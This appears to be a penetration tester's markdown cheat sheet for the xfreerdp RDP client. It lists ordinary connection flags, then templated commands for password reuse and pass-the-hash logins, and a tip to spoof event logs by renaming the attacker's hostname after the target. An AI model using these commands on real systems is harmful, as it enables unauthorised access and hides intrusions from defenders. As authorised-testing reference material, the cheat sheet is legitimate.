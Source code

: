 # FreeRDP

## 01 - Authenticate RDP

- Choose keyboard layout that is familiar to you and then specify the `/kbd:0x<layout_id>` or `/kbd:US` flag.

`$ xfreerdp /kbd-list`

- Fullscreen (the shortcut is `CTRL + ALT + Enter`) to toggle it.

`$ xfreerdp /f`

- Drag resolution screen

`$ xfreerdp /dynamic-resolution`

- Force specific protocol security. Older operating systems specify `/sec:rdp` and for modern operating system specify `/sec:tls`.

`$ xfreerdp /sec:<rdp | tls>`

- Ignore certification

`$ xfreerdp /cert:ignore`

- Reuse passwords

```
$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls> /u:"<username>" /d:"<domain_name>" /p:"<password>" /v:<IP> [/port:<PORT>]

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls> /u:"[<domain_name>\]<username>" /p:"<password>" /v:<IP>:[<PORT>]
```

- Pass the Hash

```
$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls> /u:"<username>" /d:"<domain_name>" /pth:<nt_hash> /v:<IP> [/port:<PORT>]

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls> /u:"[<domain_name>\]<username>" /pth:<nt_hash> /v:<IP>:[<PORT>]
```

## 02 - OPSEC Consideration

- Change your Linux hostname to the same target workstation to spoof the event logs

`$ sudo hostnamectl set-hostname "<windows_workstation_name_to_spoof>"`

---
## References

- [FreeRDP User Manual](https://github.com/awakecoding/FreeRDP-Manuals/blob/master/User/FreeRDP-User-Manual.markdown)

- [Pass the Hash Attack with RDP](https://infinitelogins.com/2021/02/20/pass-the-hash-attack-with-rdp/)

- [Hacktricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

- [Make FreeRDP Prompt User for Username and Password](https://unix.stackexchange.com/questions/119880/make-freerdp-prompt-user-for-username-and-password)
